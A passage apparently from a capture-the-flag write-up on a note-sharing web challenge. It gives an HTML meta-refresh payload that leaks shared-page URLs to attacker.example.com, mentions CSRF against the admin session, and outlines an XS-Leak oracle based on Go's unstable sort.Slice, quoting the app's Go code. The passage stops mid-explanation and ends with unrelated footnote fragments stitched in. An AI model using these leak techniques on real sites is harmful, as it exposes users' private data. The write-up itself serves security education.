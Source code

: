 However, you can leak URLs of shared pages using meta tag redirect technique:
```html
<meta name="referrer" content="unsafe-url">
<meta http-equiv="Refresh" content="0; URL=http://attacker.example.com">
```

By the technique, you can access shared pages because you can create notes and share them on the admin's session by CSRF.

Is the remaining task to see a flag note in shared pages? The answer is no.
The most impotant point in this challenge is that shared pages do not show a flag note:
```go
// Hide your secret notes 🤫
notes = lo.Filter(notes, func(note Note, _ int) bool {
    return !secretPattern.MatchString(note.Content)
})
```

Somehow you have to find a way to steal the content of the hidden note.

#### Step 2: XS-Leak with an algorithm-based oracle

The goal in this step to construct an oracle for XS-Leak to steal the hidden note.

In conclusion, the key of the oracle is "unstable sort".

The implementation for getting notes:
```go
func (user *User) getNotes(query string) ([]Note, error) {
    files, err := os.ReadDir(fmt.Sprintf("notes/%s", user.ID))
    if err != nil {
        return nil, err
    }
    notes := make([]Note, 0, len(files))
    for _, file := range files {
        content, err := os.ReadFile(fmt.Sprintf("notes/%s/%s", user.ID, file.Name()))
        if err != nil {
            return nil, err
        }
        notes = append(notes, Note{
            ID:      file.Name(),
            Content: string(content),
        })
    }
    notes = lo.Filter(notes, func(note Note, _ int) bool {
        return strings.Contains(note.Content, query)
    })
    sort.Slice(notes, func(i, j int) bool {
        return notes[i].Content < notes[j].Content
    })
    return notes, nil
}
```

It uses `sort.Slice`:
```go
sort.Slice(notes, func(i, j int) bool {
    return notes[i].Content < notes[j].Content
})
```


[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version.<br>ref. https://www.typescriptlang.org/tsconfig/#target